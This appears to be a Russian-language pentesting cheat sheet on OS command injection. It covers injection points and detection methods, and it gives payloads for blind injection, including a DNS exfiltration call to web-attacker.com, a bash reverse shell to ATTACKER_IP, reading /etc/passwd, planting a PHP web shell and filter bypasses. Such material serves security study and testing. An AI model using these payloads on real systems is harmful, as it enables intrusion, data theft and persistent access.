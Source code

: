 ## 1. Внедрение команд ОС

### 1.1 Определение предположительных мест уязвимости

Уязвимости внедрения команд ОС могут встречаться в различных компонентах системы, таких как:

- **Веб-приложения**: Параметры HTTP-запросов (GET, POST, заголовки), поля ввода данных (формы, поисковые запросы).

- **Системные утилиты**: Приложения, которые взаимодействуют с командной строкой (например, системные скрипты, утилиты администрирования).

- **Сетевые сервисы**: Сервисы, которые принимают входные данные и передают их в командную строку (например, SSH, FTP, SMTP).

- **API**: Интерфейсы, которые принимают данные от пользователя и передают их в системные команды.

### 1.2 Методы поиска уязвимостей

- **Анализ входных данных**: Проверка всех параметров, которые передаются в приложение (GET, POST, заголовки, куки).

- **Фаззинг**: Автоматизированная отправка случайных или специально сформированных данных для выявления аномалий в поведении системы.

- **Статический анализ кода**: Поиск вызовов функций, которые выполняют команды ОС (например, `exec()`, `system()`, `popen()` в PHP, `os.system()` в Python).

----

## 2. Полезные команды для эксплуатации

| Цель команды              | Линукс        | Винда           |
| ------------------------- | ------------- | --------------- |
| Имя текущего пользователя | `whoami`      | `whoami`        |
| Операционная система      | `uname -a`    | `ver`           |
| Конфигурация сети         | `ifconfig`    | `ipconfig /all` |
| Сетевые соединения        | `netstat -an` | `netstat -an`   |
| Запуск процессов          | `ps -ef`      | `tasklist`      |

---

## 3. Уязвимости слепого внедрения команд ОС


### 3.1 Обнаружение слепого внедрения команд ОС

Слепое внедрение команд ОС (Blind OS Command Injection) происходит, когда результат выполнения команды не возвращается напрямую пользователю. Для обнаружения таких уязвимостей можно использовать следующие методы:

#### 3.1.1 Использование временных задержек

- **Метод**: Внедрение команды, которая вызывает задержку выполнения (например, `ping`).

- **Пример**:
    `& ping -c 10 127.0.0.1 &`
    
	Если система задерживает ответ на 10 секунд, это может указывать на уязвимость.


#### 3.1.2 Перенаправление вывода

- **Метод**: Перенаправление вывода команды в файл, который можно будет прочитать позже.

- **Пример**:
    `& whoami > /var/www/static/whoami.txt &`
    
    Необходимо понимание структуры директорий и доступ к файлу через веб-сервер.


#### 3.1.3 Использование внеполосных (OAST) методов

- **Метод**: Использование DNS или HTTP-запросов для передачи данных на внешний сервер.

- **Пример**:
    `& nslookup 'whoami'.kgji2ohoyw.web-attacker.com &`
    
    Данные о текущем пользователе будут переданы через DNS-запрос.

---

## 4. Методы эксплуатации

### 4.1 Получение обратного shell

- **Метод**: Использование уязвимости для запуска команды, которая устанавливает соединение с атакующим.

- **Пример**:
    `& bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' &`

### 4.2 Чтение файлов

- **Метод**: Использование команд для чтения файлов на сервере.

- **Пример**:
    `& cat /etc/passwd &`

### 4.3 Запись файлов

- **Метод**: Использование команд для записи файлов на сервере (например, создание веб-шелла).

- **Пример**:
    `& echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php &`


---

## 5. Методы обхода защит

### 5.1 Обход фильтрации входных данных

- **Метод**: Использование кодировок или специальных символов для обхода фильтров.

- **Пример**:
    `& who%61mi &`
    
    (URL-кодирование символов)

### 5.2 Обход ограничений на выполнение команд

- **Метод**: Использование альтернативных команд или цепочек команд.

- **Пример**:
    `& echo 'whoami' | bash &`


### 5.3 Использование переменных окружения

- **Метод**: Использование переменных окружения для выполнения команд.
    
- **Пример**:
    `& ${PATH:0:1}tmp${PATH:0:1}whoami &`
